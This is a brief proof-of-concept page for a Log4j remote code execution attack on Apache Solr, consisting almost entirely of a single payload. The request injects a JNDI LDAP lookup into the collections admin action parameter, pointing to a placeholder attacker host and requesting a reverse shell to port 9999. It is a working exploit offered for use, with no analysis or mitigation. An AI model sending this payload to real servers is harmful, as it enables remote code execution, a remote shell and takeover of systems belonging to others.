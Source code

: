 # Apache Solr log4j RCE

## Poc

```
/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/9999}&wt=json
```

![](1.png)